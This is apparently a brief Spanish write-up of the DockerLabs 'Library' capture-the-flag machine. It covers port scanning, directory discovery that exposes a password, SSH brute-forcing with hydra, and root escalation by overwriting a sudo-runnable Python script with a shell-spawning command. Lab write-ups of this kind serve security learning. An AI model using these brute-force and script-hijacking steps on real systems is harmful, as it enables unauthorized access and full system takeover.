

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/dockerlabs/library/index.html · generator: mkdocs

# Library

*22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))*

Gobuster -> /index.html y /index.php -> *JIFGHDS87GYDFIGD* ?
hydra a ssh con password JIFGHDS87GYDFIGD
**carlos**

## Escalada

*(ALL) NOPASSWD: /usr/bin/python3 /opt/script.py*

Cambiamos lo que tiene dentro ese archivo para poder lanzar una bash con python

En un principio nos dice que no tenemos permisos de escritura, pero como el usuario *carlos* es el propietario, nos lo damos con
`chmod u+w /opt/script.py`

A continuación metemos en el archivo:
`echo 'import os; os.system("/bin/sh");' > /opt/script.py`
Lo ejecutamos como root
`sudo -u root python3 /opt/script.py`
**root**
